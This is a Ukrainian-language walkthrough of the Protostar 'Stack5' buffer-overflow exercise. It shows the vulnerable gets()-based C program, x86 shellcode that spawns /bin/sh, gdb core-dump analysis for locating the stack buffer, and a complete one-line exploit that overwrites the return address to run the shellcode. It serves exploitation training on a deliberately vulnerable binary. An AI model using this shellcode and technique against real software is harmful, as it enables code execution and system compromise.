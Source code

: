 # STACK5

Отже, ось код для Stack5:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі. Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код. Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:

shellcode (https://www.vividmachines.com/shellcode/shellcode.html):

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80
```

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання (програма gdb трохи змінює стек, тому дійсна адреса може трохи відрізнятися від отриманої):

```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
```

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Давайте завантажимо згенерований дамп ядра і знайдемо буфер:

```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```
![image](https://user-images.githubusercontent.com/47494881/147508435-d77df8e5-44ef-40bd-ab9c-07b98428d8a3.png)

Як видно на рисунку, програма вже намагалася виконати адресу 0x41414141 ('AAAA'), тому зміщення правильні. Буфер користувача починається з 0xbffffc60. 

Отже, маємо:
```
(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\x60'[::-1])"; cat) | ./stack5
```

![image](https://user-images.githubusercontent.com/47494881/147508470-9ceebaef-5e56-4bed-9b3c-df126ddc8729.png)
